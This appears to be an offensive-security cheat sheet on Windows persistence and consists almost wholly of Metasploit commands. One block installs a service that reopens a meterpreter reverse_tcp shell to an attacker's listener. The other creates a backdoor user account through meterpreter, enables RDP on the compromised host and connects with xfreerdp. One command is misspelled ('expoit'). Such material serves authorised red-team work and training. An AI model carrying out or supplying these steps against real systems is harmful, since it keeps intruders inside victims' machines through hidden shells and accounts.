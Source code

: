 # Windows - Persistence

## Automatic Persistence

### Service Persistence

```bash
# Make Persistent a meterpreter session with msf
use exploit/windows/local/persistence_service
set payload windows/meterpreter/reverse_tcp
set LPORT PERSISTENCE_PORT
set SESSION SESSION
expoit

# Now we can close the session and reopen when we want
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST eth1
set LPORT PERSISTENCE_PORT
run

# The session will open everytime we start a multi/handler listener on PERSISTENCE PORT
```

### RDP Access Persistence

<pre class="language-bash"><code class="lang-bash"><strong># Get a meterpreter session with elevated privs
</strong>
# create a new user via meterpreter 
run getgui -e -u NEW_USER -p PASS

# if rdp is disable, try to enable it
use post/windows/manage/enable_rdp
show options
set SESSION N
exploit

# connect via rdp
xfreerdp /u:NEW_USER /p:PASS /v:IP
</code></pre>
